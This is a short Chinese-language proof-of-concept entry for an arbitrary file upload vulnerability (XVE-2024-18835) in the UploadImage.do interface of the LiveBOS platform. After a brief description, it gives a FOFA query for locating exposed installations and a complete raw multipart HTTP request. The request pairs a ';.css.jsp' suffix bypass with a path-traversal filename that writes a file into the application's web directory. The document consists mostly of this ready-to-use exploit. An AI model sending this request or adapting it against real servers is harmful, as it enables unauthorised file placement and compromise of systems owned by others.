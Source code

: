 # 灵动业务架构平台(LiveBOS)系统UploadImage.do接口文件上传漏洞(XVE-2024-18835)

LiveBOS灵动业务架构平台，是面向对象的业务支撑平台与建模工具。  在LiveBos的UploadImage.do接口中，发现了一处任意文件上传漏洞，攻击者可利用该漏洞上传任意文件。

## fofa

```yaml
app="LiveBOS-框架"
```

## poc

```yaml
POST /feed/UploadImage.do;.css.jsp HTTP/1.1
Host:
Httpsendrequestex: true
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 049266bd-e740-40bf-845f-bc511296894e
Accept-Encoding: gzip, deflate
Cookie: zhzbsessionname=35FF312409BF3CAC561D5BC776643A05
Content-Type: multipart/form-data;boundary=--------------------------WebKitFormBoundaryxegqoxxi
Content-Length: 222

---WebKitFormBoundaryxegqoxxi
Content-Disposition:form-data;name="file";filename="../../../../../../././../../../../../java/fh/tomcat_fhxszsq/LiveBos/FormBuilder/
feed/jsp/vtnifpvi.js"
Content-Type: image/jpeg

GIF89a 123123123
---WebKitFormBoundaryxegqoxxi--
```

